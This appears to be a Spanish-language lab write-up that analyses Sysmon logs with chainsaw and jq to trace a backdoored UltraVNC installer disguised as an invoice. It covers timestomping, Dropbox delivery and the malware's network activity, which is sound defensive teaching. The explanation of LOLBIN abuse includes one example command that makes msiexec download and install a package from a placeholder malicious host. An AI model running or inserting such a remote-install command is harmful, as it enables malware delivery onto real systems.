


# **Unit 42** 

En este laboratorio estaremos analizando logs de eventos registrados por Sysmon(System Monitor), que es una herramienta de Microsoft que forma parte del conjunto de Sysinternals. Funciona como un servicio y un driver en Windows y registra eventos detallados del sistema en los logs de eventos de Windows.
Estaremos investigando la campaña maliciosa que involucró una versión comprometida de UltraVNC, investigada por el equipo Unit 42 de Palo Alto Networks, en dicha campaña los atacantes distribuyeron una versión de UltraVNC modificada con un backdoor para mantener acceso persistente a los sistemas comprometidos. 

Se nos proporciona un único fichero .evtx para analizar, en mi caso usaré chainsaw para parsear los datos a un formato jsonl, que me resulta más cómodo de trabajar. 

Usamos chainsaw de la siguiente manera para parsear todo: 




Otra cosa importante que hay que aclarar es que tanto sysmon como Microsoft manejan sus popios Event's ID, por lo que debemos fijarnos bien en el canal del que proviene el log, podemos diferencialos por el siguiente campo: 

```bash 
"Channel": "Microsoft-Windows-Sysmon/Operational"
``` 
Que este es un evento de sysmon, para los "nativos" de microsoft podemos encontrar en canales como `Security`, `System`, `Application`, etc, los que ya conocemos y hemos trabajado en laboratorios anteriores. 

Aclarado esto, podemos pasar a responder las preguntas del laboratorio: 


---
**task 1**

¿Cuántos registros de sucesos hay con el ID de suceso 11?

Hay varias formas de hacer esto, una de estas es la siguiente: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | .System.EventID' | sort | uniq -c 
      6 1
      1 10
     56 11
     14 12
     19 13
      2 15
      7 17
     16 2
      3 22
     26 23
      2 26
      1 3
      1 5
     15 7
```

Pero igual se puede de la siguiente, que es un poco mas larga pero demuestra conocimiento sobre la herramienta con la que se trabaja: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | .System.EventID == 11' | grep -iv "false" | uniq -c 
     56 true
```

---
**task 2** 


Como lo indica la pregunta, cada vez que un programa se ejecuta (aunque sea un ejecutable legítimo o un malware), Sysmon genera un evento con ID 1.

Con esto podemos hacer una primera exploración de los eventos con ID 1, y podemos fijarnos en el siguiente campo: 


```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 1)| .EventData.OriginalFileName' 
"pingsender.exe"
"Fattura 2 2024.exe"
"msiexec.exe"
"msiexec.exe"
"msiexec.exe"
"msiexec.exe"
```

Y ya vemos cosas interesantes, ¿Una factura en formato .exe?, y el posterior uso de msiexec. 

- **`msiexec.exe`** es el ejecutable **legítimo** del sistema operativo Windows que se encarga de **instalar, modificar y desinstalar** programas que usan archivos **.msi** (Microsoft Installer packages).
- Vive normalmente en:
  ```
  C:\Windows\System32\msiexec.exe
  ```

- Es parte del servicio de Windows Installer, algo completamente normal... **PERO** ⚡

### ¿Por qué es interesante que aparezca en tu análisis?

- Los **atacantes** muchas veces abusan de `msiexec.exe` porque:
  - Es un **binario de confianza** (signed Microsoft binary → menos alertas de antivirus).
  - Permite **descargar e instalar** programas directamente **desde internet** usando comandos como:
    ```
    msiexec /i http://malicious-site.com/malware.msi
    ```
  - Se puede usar para ejecutar payloads remotamente → **Living Off The Land Binary** (LOLBIN).

Así que podríamos empezar a sospechar, analizemos el Fattura.exe

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 1 and .EventData.OriginalFileName == "Fattura 2 2024.exe")'  
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Sysmon",
      "Guid": "5770385F-C22A-43E0-BF4C-06F5698FFBD9"
    },
    "EventID": 1,
    "Version": 5,
    "Level": 4,
    "Task": 1,
    "Opcode": 0,
    "Keywords": "0x8000000000000000",
    "TimeCreated_attributes": {
      "SystemTime": "2024-02-14T03:41:56.559618Z"
    },
    "EventRecordID": 118793,
    "Correlation": null,
    "Execution_attributes": {
      "ProcessID": 3028,
      "ThreadID": 4412
    },
    "Channel": "Microsoft-Windows-Sysmon/Operational",
    "Computer": "DESKTOP-887GK2L",
    "Security_attributes": {
      "UserID": "S-1-5-18"
    }
  },
  "EventData": {
    "RuleName": "technique_id=T1204,technique_name=User Execution",
    "UtcTime": "2024-02-14 03:41:56.538",
    "ProcessGuid": "817BDDF3-3684-65CC-2D02-000000001900",
    "ProcessId": 10672,
    "Image": "C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe",
    "FileVersion": "1.1.2",
    "Description": "Photo and vn Installer",
    "Product": "Photo and vn",
    "Company": "Photo and Fax Vn",
    "OriginalFileName": "Fattura 2 2024.exe",
    "CommandLine": "\"C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe\"",
    "CurrentDirectory": "C:\\Users\\CyberJunkie\\Downloads\\",
    "User": "DESKTOP-887GK2L\\CyberJunkie",
    "LogonGuid": "817BDDF3-311E-65CC-A7AE-1B0000000000",
    "LogonId": "0x1baea7",
    "TerminalSessionId": 1,
    "IntegrityLevel": "Medium",
    "Hashes": "SHA1=18A24AA0AC052D31FC5B56F5C0187041174FFC61,MD5=32F35B78A3DC5949CE3C99F2981DEF6B,SHA256=0CB44C4F8273750FA40497FCA81E850F73927E70B13C8F80CDCFEE9D1478E6F3,IMPHASH=36ACA8EDDDB161C588FCF5AFDC1AD9FA",                                                                
    "ParentProcessGuid": "817BDDF3-311F-65CC-0A01-000000001900",
    "ParentProcessId": 1116,
    "ParentImage": "C:\\Windows\\explorer.exe",
    "ParentCommandLine": "C:\\Windows\\Explorer.EXE",
    "ParentUser": "DESKTOP-887GK2L\\CyberJunkie"
  }
}
``` 

Tomamos el hash, y al analizarlo en virus total podemos ver que efectivamente se malicioso: 




Resaltemos un par de cosas interesantes: 

- **`OriginalFileName`** (`Fattura 2 2024.exe`)  
  → Es el **nombre original** que estaba **en los metadatos** del ejecutable cuando fue compilado.  
  → Este valor viene del **campo de propiedades internas** del archivo (firmware del PE Header).

- **`Image`** (`C:\Users\CyberJunkie\Downloads\Preventivo24.02.14.exe.exe`)  
  → Es la **ruta real** del archivo que se ejecutó en disco **en este momento**.

### ¿Qué significa?
- El programa fue **renombrado** en el disco: lo que en su momento se compiló como `Fattura 2 2024.exe`, **físicamente se llama ahora** `Preventivo24.02.14.exe.exe`.
- Esto es un truco típico de malware:
  - Renombrar un ejecutable para **disfrazarlo** de otra cosa.
  - Engañar al usuario para que lo ejecute (por ejemplo, haciéndolo parecer un presupuesto, factura, etc.).

### Otros campos importantes que se ven en este log:

| **Campo**           | **Qué es / Por qué importa**                                              |
|:--------------------|:--------------------------------------------------------------------------|
| `Hashes`            | Hashes SHA1, MD5, SHA256 → Puedes verificar si el ejecutable es malware conocido. |
| `CommandLine`       | Qué comando exacto se ejecutó → detectas parámetros ocultos o raros. |
| `ParentImage`       | Quién lanzó el proceso → aquí fue `explorer.exe`, o sea probablemente doble click normal. |
| `ParentUser`        | Qué usuario ejecutó → en este caso, `CyberJunkie`. |
| `IntegrityLevel`    | Nivel de integridad del proceso → aquí es `Medium`, típico de usuario normal (no admin). |
| `Description`, `Product`, `Company` | Metadatos "de fantasía" del ejecutable → muchos malwares falsifican estos datos para parecer legítimos. |
| `UtcTime`           | Momento exacto de ejecución en UTC. |

---

- El hecho de que sea lanzado desde el `Downloads\` ya es **un indicador de sospecha**.
- El nombre **"Preventivo24.02.14.exe.exe"** suena raro (doble `.exe`) → truco típico para ocultarse.
- La `Company` y `Description` parecen genéricas ("Photo and Fax Vn") → **no muy confiables**.

---
**task 3**

¿Qué unidad Cloud se utilizó para distribuir el malware?

Para responder a esto podemos filtrar por el EventID 22 que en sysmosn un evento DNS. 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 22) | .EventData.QueryName' 
"uc2f030016253ec53f4953980a4e.dl.dropboxusercontent.com"
"d.dropbox.com"
"www.example.com"
```

EL fichero fue distribuido por dropbox, podemos seguir el rastro para ver los nombres de ficheros relacionados con el `ProcessGiud`

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.EventData.ProcessGuid == "817BDDF3-3514-65CC-0802-000000001900") | select(.System.EventID == 11) | .EventData.TargetFilename'
"C:\\Users\\CYBERJ~1\\AppData\\Local\\Temp\\skZdsnwf.exe"
"C:\\Users\\CyberJunkie\\Downloads\\skZdsnwf.exe.part"
"C:\\Users\\CyberJunkie\\Downloads\\skZdsnwf.exe.part"
"C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe"
"C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe:Zone.Identifier"
"C:\\Users\\CyberJunkie\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles\\avsa4d81.default-release\\prefs-1.js"                                                                            
"C:\\Users\\CyberJunkie\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles\\avsa4d81.default-release\\prefs-1.js"                    
```

---
**task 4** 

Basándonos en la información de Sysmon en la página de microsoft. 

ID de evento 2: Un proceso cambió la hora de creación de un archivo
 - El evento de cambio de hora de creación de archivo se registra cuando un proceso modifica explícitamente la hora de creación de un archivo. Este evento ayuda a rastrear la hora real de creación de un archivo. Los atacantes pueden cambiar la hora de creación de un archivo de una puerta trasera para que parezca que se instaló con el sistema operativo. Tenga en cuenta que muchos procesos cambian legítimamente la hora de creación de un archivo; esto no necesariamente indica actividad maliciosa.

Muy buena pregunta — te lo explico:

Un proceso legítimo podría cambiar la hora de creación de un archivo **por varias razones normales**. Algunos ejemplos:

- **Herramientas de copia de archivos o sincronización** (como `robocopy` en Windows) pueden **intencionalmente conservar las fechas originales** de los archivos (creación/modificación) al moverlos o copiarlos. Esto hace que los archivos copiados parezcan tener la misma antigüedad que el original.
- **Restauraciones de backups**: Si restauras un backup, el software de recuperación puede **reescribir la hora de creación** para que el archivo restaurado conserve la fecha que tenía al momento de la copia.
- **Actualización de software**: Algunas actualizaciones parchean archivos antiguos y modifican metadata para **mantener la apariencia de antigüedad** del archivo original.
- **Migraciones de sistema**: Cuando mueves sistemas operativos o datos de un disco a otro, algunos programas ajustan las fechas para que **parezca que todo sigue igual** que en el disco anterior.
- **Programas de manipulación de metadata**: Herramientas como `SetFileTime` o `PowerShell` también pueden modificar fechas, a veces como parte de tareas administrativas normales.


Sabiendo esto podemos usar el siguiente comando:

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 2)' -c | grep -i pdf | jq
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Sysmon",
      "Guid": "5770385F-C22A-43E0-BF4C-06F5698FFBD9"
    },
    "EventID": 2,
    "Version": 5,
    "Level": 4,
    "Task": 2,
    "Opcode": 0,
    "Keywords": "0x8000000000000000",
    "TimeCreated_attributes": {
      "SystemTime": "2024-02-14T03:41:58.410145Z"
    },
    "EventRecordID": 118850,
    "Correlation": null,
    "Execution_attributes": {
      "ProcessID": 3028,
      "ThreadID": 4412
    },
    "Channel": "Microsoft-Windows-Sysmon/Operational",
    "Computer": "DESKTOP-887GK2L",
    "Security_attributes": {
      "UserID": "S-1-5-18"
    }
  },
  "EventData": {
    "RuleName": "technique_id=T1070.006,technique_name=Timestomp",
    "UtcTime": "2024-02-14 03:41:58.404",
    "ProcessGuid": "817BDDF3-3684-65CC-2D02-000000001900",
    "ProcessId": 10672,
    "Image": "C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe",
    "TargetFilename": "C:\\Users\\CyberJunkie\\AppData\\Roaming\\Photo and Fax Vn\\Photo and vn 1.1.2\\install\\F97891C\\TempFolder\\~.pdf",                                            
    "CreationUtcTime": "2024-01-14 08:10:06.029",
    "PreviousCreationUtcTime": "2024-02-14 03:41:58.404",
    "User": "DESKTOP-887GK2L\\CyberJunkie"
  }
}
```

---
**task 5** 


Para responder a esto ya sabemos que el EventID en Sysmon corresponde a la creación de un fichero, usemos el siguiente comando para filtrar por el nombre específico del fichero: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 11)' -c | grep -i once.cmd | jq '.EventData.TargetFilename' -r
C:\Users\CyberJunkie\AppData\Roaming\Photo and Fax Vn\Photo and vn 1.1.2\install\F97891C\WindowsVolume\Games\once.cmd
C:\Games\once.cmd
```

El primer resultadoes el duenostro interés. 


---
**task 6** 


Ya conocemos el nombre del malware, y que el EventID 22 es para reoluciones DNS, apliquemos el siguiente comando: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 22)' -c | grep Preventivo | jq
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Sysmon",
      "Guid": "5770385F-C22A-43E0-BF4C-06F5698FFBD9"
    },
    "EventID": 22,
    "Version": 5,
    "Level": 4,
    "Task": 22,
    "Opcode": 0,
    "Keywords": "0x8000000000000000",
    "TimeCreated_attributes": {
      "SystemTime": "2024-02-14T03:41:58.764837Z"
    },
    "EventRecordID": 118906,
    "Correlation": null,
    "Execution_attributes": {
      "ProcessID": 3028,
      "ThreadID": 4452
    },
    "Channel": "Microsoft-Windows-Sysmon/Operational",
    "Computer": "DESKTOP-887GK2L",
    "Security_attributes": {
      "UserID": "S-1-5-18"
    }
  },
  "EventData": {
    "RuleName": "-",
    "UtcTime": "2024-02-14 03:41:56.955",
    "ProcessGuid": "817BDDF3-3684-65CC-2D02-000000001900",
    "ProcessId": 10672,
    "QueryName": "www.example.com",
    "QueryStatus": "0",
    "QueryResults": "::ffff:93.184.216.34;199.43.135.53;2001:500:8f::53;199.43.133.53;2001:500:8d::53;",                                                                                
    "Image": "C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe",
    "User": "DESKTOP-887GK2L\\CyberJunkie"
  }
}
```

---
**task 7** 


Para responder a esto podemos usar el EventID 3, que es para ID de evento 3, que registra las conexiones TCP/UDP en la máquina. Está deshabilitado por defecto. Cada conexión se vincula a un proceso mediante los campos ProcessIdy ProcessGuid. El evento también contiene los nombres de host de origen y destino, las direcciones IP, los números de puerto y el estado de IPv6.

Aplicamos el siguiente comando: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 3)' -c | grep Preventivo | jq
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Sysmon",
      "Guid": "5770385F-C22A-43E0-BF4C-06F5698FFBD9"
    },
    "EventID": 3,
    "Version": 5,
    "Level": 4,
    "Task": 3,
    "Opcode": 0,
    "Keywords": "0x8000000000000000",
    "TimeCreated_attributes": {
      "SystemTime": "2024-02-14T03:41:58.905483Z"
    },
    "EventRecordID": 118910,
    "Correlation": null,
    "Execution_attributes": {
      "ProcessID": 3028,
      "ThreadID": 4424
    },
    "Channel": "Microsoft-Windows-Sysmon/Operational",
    "Computer": "DESKTOP-887GK2L",
    "Security_attributes": {
      "UserID": "S-1-5-18"
    }
  },
  "EventData": {
    "RuleName": "technique_id=T1036,technique_name=Masquerading",
    "UtcTime": "2024-02-14 03:41:57.159",
    "ProcessGuid": "817BDDF3-3684-65CC-2D02-000000001900",
    "ProcessId": 10672,
    "Image": "C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe",
    "User": "DESKTOP-887GK2L\\CyberJunkie",
    "Protocol": "tcp",
    "Initiated": true,
    "SourceIsIpv6": false,
    "SourceIp": "172.17.79.132",
    "SourceHostname": "-",
    "SourcePort": 61177,
    "SourcePortName": "-",
    "DestinationIsIpv6": false,
    "DestinationIp": "93.184.216.34",
    "DestinationHostname": "-",
    "DestinationPort": 80,
    "DestinationPortName": "-"
  }
}
```

---
**task 8** 


Para esto podemos fijarnos en el EventID 5 en sysmon, que es un evento de finalización de proceso e informa cuando un proceso termina. Proporciona los valores de UtcTime, ProcessGuidy ProcessIddel proceso.

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 5)' -c | grep Preventivo | jq
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Sysmon",
      "Guid": "5770385F-C22A-43E0-BF4C-06F5698FFBD9"
    },
    "EventID": 5,
    "Version": 3,
    "Level": 4,
    "Task": 5,
    "Opcode": 0,
    "Keywords": "0x8000000000000000",
    "TimeCreated_attributes": {
      "SystemTime": "2024-02-14T03:41:58.799651Z"
    },
    "EventRecordID": 118907,
    "Correlation": null,
    "Execution_attributes": {
      "ProcessID": 3028,
      "ThreadID": 4412
    },
    "Channel": "Microsoft-Windows-Sysmon/Operational",
    "Computer": "DESKTOP-887GK2L",
    "Security_attributes": {
      "UserID": "S-1-5-18"
    }
  },
  "EventData": {
    "RuleName": "-",
    "UtcTime": "2024-02-14 03:41:58.795",
    "ProcessGuid": "817BDDF3-3684-65CC-2D02-000000001900",
    "ProcessId": 10672,
    "Image": "C:\\Users\\CyberJunkie\\Downloads\\Preventivo24.02.14.exe.exe",
    "User": "DESKTOP-887GK2L\\CyberJunkie"
  }
} 
```

> **Para seleccionar 2 campos a la vez**
> ┌──(kali㉿kali)-[~/blue-labs/DFIR]
>└─$ cat sysmon.jsonl| jq '.Event' -c | grep 817BDDF3-3684-65CC-2D02-000000001900 | jq ' . | .System.EventID, .EventData'

----
Otra cosa interesante que podemos hacer es con el conteo de los eventos, asignarlo a cada unu de los que estén relacionados con el ProcessGuid del proceso malicioso  de la siguiente forma: 


```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ for i in $(cat sysmon.jsonl| jq '.Event' -c | grep 817BDDF3-3684-65CC-2D02-000000001900 | jq ' . | .System.EventID'); do grep $i events.csv | awk -F: '{print $1":"$3}'; done
1:ProcessCreated
2:ChangeCreateTime
3:NetworkConnection
5:ProcessTerminate
7:ImageLoaded
10:ProcessAccess
11:FileCreate
12:RegistryCreate
13:RegistrySet
15:FileCreateStreamHas
17:PipeEventCreate
7:ImageLoaded
17:PipeEventCreate
7:ImageLoaded
17:PipeEventCreate
2:ChangeCreateTime
12:RegistryCreate
15:FileCreateStreamHas
22:DNS
<SNIP>
``` 


